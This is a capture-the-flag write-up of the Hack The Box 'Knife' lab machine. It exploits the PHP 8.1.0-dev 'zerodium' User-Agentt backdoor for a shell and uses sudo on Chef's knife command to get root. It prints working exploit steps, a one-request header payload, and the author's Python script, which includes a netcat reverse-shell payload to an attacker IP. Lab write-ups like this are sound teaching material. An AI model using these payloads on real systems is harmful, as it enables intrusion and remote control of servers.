

# Knife: 10.10.10.242

## Hints

- This machine is easy, even for an easy box - but it is fun!
- HTTP headers have the information you need to get a foothold
- Privesc to root is all about the machine name!

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Looking at the SSH version of `4ubuntu0.2` - seems like we have an Ubuntu Linux Focal operating system, which is version 20.04. So probably not much to poke at on port 22 for SSH. So, instead, I started by looking at port 80.

## 80: Recon

Browsing to the home page of port 80, there is very little.


I started to run a `gobuster` against the website with the usual options, then poked around the website manually. There are no links on the page, and the HTML source is bare bones. Nothing to see or find. No user input either. I found this quite strange and was at a bit of a loss about how to proceed. So I kept enumerating port 80 looking for hints - as it seemed like the only option. After I while I executed a `curl` against the site to see the headers. I have started using browser dev tools and `curl` instead of spinning up Burp for everything - especially when it might be a quick engagement.



This is interesting! In the `X-Powered-By` header the value is set to: `PHP/8.1.0-dev`. I immediately stopped my current `gobuster` and started a new one specifying the PHP extension. What jumps out here is that the PHP version is the development version of PHP.

## Foothold via PHP RCE

After finding no interesting PHP files with my revised `gobuster` with PHP extension, it seemed like the only thing left was this PHP version. Having a quick `seachsploit` gave us the result we were looking for.

```none
└─$ searchsploit 8.1.0-dev 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                               | php/webapps/49933.py
---------------------------------------------------------------------------------- ---------------------------------
```

An RCE against the exact PHP version we have - with a nice Python3 exploit. This script is easy, enter the host and get access as the `james` user, and the ability to get the user flag.

```none
└─$ python3 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ wc -c /home/james/user.txt
33 /home/james/user.txt
```

If you are interested, have a read of this blog on [PHP 8.1.0-dev Backdoor Remote Code Execution](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/). Which summarises the backdoor that was put into PHP code, as well as the [GitHub commit of interest](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a).


I messed around with the script a little to have some fun. Added in the ability to fetch the host as a command-line argument. Then tried some payloads to get a reverse shell - which was completely un-needed, but entertaining!

The shell the exploit gives is really hard to work in. So, used the old Python trick to get a proper shell. It had been a couple of weeks since I did this last, so documenting it to write it out again (so I hopefully remember!).

```none
python3 -c 'import pty;pty.spawn("/bin/bash");'
Ctrl + Z
stty raw -echo; fg
Enter
Enter
```

## Privesc: `james` to `root`

Since this is an easy Linux machine I decided to try manually enumerate it, so left linpeas off the list for today. I have done lots of easy Linux machines lately and decided to try and challenge myself. The first thing I looked at was, of course, `sudo` configuration.

```none
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Looking at this `knife` executable, it links to a file in a different location.

```none
james@knife:/dev/shm$ ls -lisa /usr/bin/knife 
26173 0 lrwxrwxrwx 1 root root 31 May  7 11:03 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

We can execute this file as `sudo` with no password. But I had no idea how to proceed. However, when running the command, we get a nice help menu. Turns out [the `knife` command](https://docs.chef.io/workstation/knife/) is an actual thing, and not made specifically for this machine. It is part of [Chef](https://docs.chef.io/platform_overview/) which I have used in other projects... but didn't know much about it. 

After a little research, and looking at the `knife` help menu, and checking on [GTFOBins for "knife"](https://gtfobins.github.io/gtfobins/knife/) - looks like we can use `knife` to execute code!

```none
james@knife:/dev/shm$ sudo /usr/bin/knife | grep exec
knife exec [SCRIPT] (options)
knife vsphere vm execute VMNAME COMMAND ARGS
```

Copying the GTFOBins example for `sudo`, we can get a root shell.

```none
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

Success!

```none
james@knife:/dev/shm$ sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
root@knife:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/dev/shm# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Extra: One-Click Own

This box was quite easy, so I did a little experimentation after finishing. The main inspiration for this was taken from the [HTB: Knife writeup by 0xdf](https://0xdf.gitlab.io/2021/08/28/htb-knife.html#shell-as-root). 0xdf showed a simple single request to get the user and root flag in Burp. I thought that this was awesome! Here is an example of the additional `User-Agentt` header value they used:

```none
User-Agentt: zerodium system("cat /home/$(whoami)/user.txt; sudo knife exec -E \"exec 'cat /root/root.txt'\"");;
```

The `zerodium` backdoor is loaded with a `cat` on the user flag and then calls the `knife` command as `sudo` on the root flag. The result is getting the webpage as a response with the output of the command before the HTML page continues being displayed:

```none
HTTP/1.1 200 OK
Date: Mon, 30 Aug 2021 06:54:25 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 5881
Connection: close
Content-Type: text/html; charset=UTF-8

1d5c04f6d961e6eab5e87ee1c884a73d
382a7d51044d11aa31771536034f638e
<!DOCTYPE html>
<html lang="en" >

...snip
```

I wanted to make a single pwned script in Python to either dump the flags or get a reverse shell. It also allowed me to practice with some string escaping while using the requests library (didn't realize this when starting). There is a lot of nested quotation marks, so this was essential. Just have a look at some of the payloads in the script - kind of nuts! The script is listed below and is also in the [exploits folder named `own_knife.py`](exploits/own_knife.py). Another cool thing I used while testing this was to proxy the requests through Burp to see what the payload looked like, as Python kept messing with my escaped characters.

FYI - please use this for educational purposes. This was authored for educational purposes... not one-click-HTB-owns for nefarious reasons - if there are any?!

```python
import requests

url = "http://10.10.10.242/"

# Get the user flag
# cmd = "zerodium system(\"cat /home/$(whoami)/user.txt\");"

# Get the root flag
# cmd = "zerodium system(\"sudo knife exec -E \\\"exec \'cat /root/root.txt\'\\\"\");"

# Get both flags
# cmd = "zerodium system(\"cat /home/$(whoami)/user.txt; sudo knife exec -E \\\"exec \'cat /root/root.txt\'\\\"\");;"

# Get a reverse shell
# Change IP and start a netcat listener
lhost = "10.10.14.16"
lport = 9001
cmd = f"zerodium system(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f; exit\");"

headers = {
    "User-Agentt": cmd
}

r = requests.get(url, headers=headers)

result = r.text
result = result.split('<!DOCTYPE html>', 1)
print(result[0])
```

## Lessons Learned

- Remember to do complete enumeration, even when in a hurry and not using the normal tools
- Researching new technologies is a good method to continually upskilling

## Useful Resources

- [HackTheBox - Knife by ippsec](https://www.youtube.com/watch?v=93JnRTF5sQM)
- [HTB: Knife by 0xdf](https://0xdf.gitlab.io/2021/08/28/htb-knife.html)
